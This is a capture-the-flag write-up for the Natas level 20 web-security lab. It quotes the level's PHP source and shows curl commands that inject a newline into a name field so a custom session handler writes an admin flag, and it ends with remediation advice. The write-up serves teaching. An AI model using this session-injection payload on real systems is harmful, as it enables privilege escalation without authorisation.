

# Natas Level 20: Session Injection Through Custom Storage

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 20 | natas20 | http://natas20.natas.labs.overthewire.org |

**Introduction:** Level 20 is all about understanding how web applications handle session data behind the scenes. Most developers rely on PHP's built in session management without thinking twice, but this challenge shows what happens when someone gets creative and writes their own custom session handler. Spoiler alert: custom implementations often introduce new and interesting vulnerabilities.

---

## Hunting for Clues

When I first loaded the page, I saw a simple interface asking for my name.



The page displays a message: "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21." Below that is a form with a single text input labeled "Your name:" and a "Change name" button. There's also the familiar "View sourcecode" link in the corner. This looked like another session based challenge where I needed to elevate my privileges from regular user to admin.

I immediately clicked on the source code link to see what was going on under the hood. The code was extensive, so let me break down the important parts.

The first thing I noticed was the custom session handling. Instead of using PHP's default session management, this application implements its own session handler:

```php
...
<?php
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) {
    //debug("MYOPEN $path $name");
    return true;
}

/* we don't need this */
function myclose() {
    //debug("MYCLOSE");
    return true;
}

function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode() ?: "";
}

function mywrite($sid, $data) {
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data");
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
    return true;
}

/* we don't need this */
function mydestroy($sid) {
    //debug("MYDESTROY $sid");
    return true;
}
/* we don't need this */
function mygarbage($t) {
    //debug("MYGARBAGE $t");
    return true;
}

session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>
...
```

The critical functions here are `myread()` and `mywrite()`. Let me explain what they do:

The `mywrite()` function stores session data in a custom format. It loops through all session variables and writes them to a file as simple key value pairs separated by spaces, with each pair on a new line. For example, if your session has `name = "John"`, it writes:
```
name John
```

The `myread()` function does the reverse. It reads the session file, splits it by newlines to get individual lines, then splits each line by spaces to extract the key and value. The first space separates the key from the value, and everything after that first space becomes the value.

Here's the vulnerability: the code assumes that user input will never contain newline characters. But what if I send a name value that includes a newline? I could inject my own session variables directly into the session file.

Looking at the `print_credentials()` function, I can see that to get admin access, I need `$_SESSION["admin"]` to equal `1`. The application never sets this variable through normal operation, so I need to inject it myself.

## Breaking In

The attack strategy became clear. I needed to:
1. Send a POST request with a name parameter that contains a newline character followed by "admin 1"
2. This would cause the session file to contain both my name and the admin flag
3. Use the same session to access the page again and get the password

I crafted my payload carefully. I would set the name to `test%0Aadmin 1` where `%0A` is the URL encoded newline character. When the `mywrite()` function processes this, it will write:
```
name test
admin 1
```

Perfect! When `myread()` reads this file back, it will parse it as two separate session variables: `name = "test"` and `admin = "1"`.

I used curl to execute this attack. First, I sent the malicious POST request and saved the session cookie:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas20:p5m[REDACTED] -d "name=test%0Aadmin 1" -c cookie.txt http://natas20.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "p5m[REDACTED]" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
<form action="index.php" method="POST">
Your name: <input name="name" value="test
admin 1"><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The response still showed me as a regular user, which was expected. The session hadn't been read back yet. But notice something interesting in the HTML: the name input field now displays `value="test` on one line and `admin 1"` on another. This confirmed that my newline injection worked and was stored in the session.

Let me check the cookie that was saved:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat cookie.txt
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_natas20.natas.labs.overthewire.org    FALSE   /       FALSE   0       PHPSESSID       oke7ajb6t78g348uq752u2cm6f
```

Good! I have a session ID: `oke7ajb6t78g348uq752u2cm6f`. Now I just needed to access the page again using this same session cookie. On the next request, the `myread()` function would parse my injected session data and populate `$_SESSION["admin"]` with the value `1`.

I sent a second request using the saved cookie:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas20:p5m[REDACTED] -b cookie.txt http://natas20.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "p5m[REDACTED]" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: BPh[REDACTED]</pre>
<form action="index.php" method="POST">
Your name: <input name="name" value="test"><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Success! The response now shows "You are an admin. The credentials for the next level are:" followed by the username and password for natas21. The attack worked perfectly.

### Understanding the Vulnerability

This vulnerability is a classic example of session injection through improper input handling. The root cause is that the custom session handler uses a simple text based format with newlines as delimiters, but it never sanitizes user input to remove or escape newline characters.

Here's what happened step by step:

1. I sent `name=test%0Aadmin 1` in my POST request
2. The code executed `$_SESSION["name"] = $_REQUEST["name"]`, storing my malicious value
3. The `mywrite()` function wrote the session data:
   ```
   name test
   admin 1
   ```
4. On the next request, `myread()` parsed this file and split it into two session variables:
   - `$_SESSION["name"] = "test"`
   - `$_SESSION["admin"] = "1"`
5. The `print_credentials()` function checked if `$_SESSION["admin"] == 1` and granted me admin access

### What Should Have Been Done

There are multiple ways this vulnerability could have been prevented:

1. **Input Sanitization**: The most direct fix would be to sanitize the name input and strip or escape newline characters before storing it in the session. For example:
   ```php
   if(array_key_exists("name", $_REQUEST)) {
       $_SESSION["name"] = str_replace(["\n", "\r"], "", $_REQUEST["name"]);
       debug("Name set to " . $_REQUEST["name"]);
   }
   ```

2. **Use Proper Serialization**: Instead of inventing a custom session storage format, use PHP's built in serialization functions like `serialize()` and `unserialize()`, or JSON encoding. These handle special characters correctly:
   ```php
   function mywrite($sid, $data) {
       $filename = session_save_path() . "/" . "mysess_" . $sid;
       $serialized = serialize($_SESSION);
       file_put_contents($filename, $serialized);
       chmod($filename, 0600);
       return true;
   }
   ```

3. **Don't Reinvent the Wheel**: PHP's default session handler is well tested and secure. Unless you have a very specific requirement, there's no need to implement custom session storage. Let PHP handle sessions the way it was designed to:
   ```php
   // Just use the defaults
   session_start();
   ```

4. **Escape Delimiters**: If you must use a custom format, properly escape your delimiters. For instance, base64 encode values before storing them:
   ```php
   $data .= "$key " . base64_encode($value) . "\n";
   ```

5. **Use a Whitelist for Session Variables**: Only allow specific, expected session variables to be set. Don't let user input directly control arbitrary session keys:
   ```php
   $allowed_session_vars = ['name', 'user_id', 'last_login'];
   foreach($_REQUEST as $key => $value) {
       if(in_array($key, $allowed_session_vars)) {
           $_SESSION[$key] = $value;
       }
   }
   ```

6. **Validate Session Data on Read**: When reading session data, validate that it matches expected formats. If something looks wrong (like an unexpected `admin` variable appearing), reject it:
   ```php
   function myread($sid) {
       // ... read logic ...
       if(array_key_exists("admin", $_SESSION) && !$_SESSION["admin_set_by_system"]) {
           unset($_SESSION["admin"]); // Remove suspicious injected variable
       }
       return session_encode() ?: "";
   }
   ```

7. **Use Strict Parsing**: When parsing the session data, use more robust parsing that won't accidentally create new variables from injected content. For example, explicitly check for expected variables rather than accepting any key value pair.

8. **Implement Integrity Checks**: Add a cryptographic signature to session data to detect tampering:
   ```php
   $data = serialize($_SESSION);
   $signature = hash_hmac('sha256', $data, SECRET_KEY);
   file_put_contents($filename, $signature . "\n" . $data);
   ```

9. **Security Audits**: Custom implementations should go through thorough security review. This type of injection vulnerability would be caught in a basic security audit or penetration test.

10. **Principle of Least Privilege**: Critical session variables like `admin` should only be set through authenticated, server side logic, never from user input. Implement access control checks at the point where privileges are granted, not just where they're checked.

The lesson here is clear: custom security implementations are dangerous. Session management, authentication, cryptography, and other security critical components should use well established, peer reviewed libraries and frameworks whenever possible. Every time you write your own version, you risk introducing vulnerabilities that others have already solved.

---

## The Loot

**Next Level Password:** BPh[REDACTED]

**Quick Recap:** Session injection vulnerability in a custom session handler allowed injecting arbitrary session variables by including newline characters in user input, enabling privilege escalation to admin without authentication.
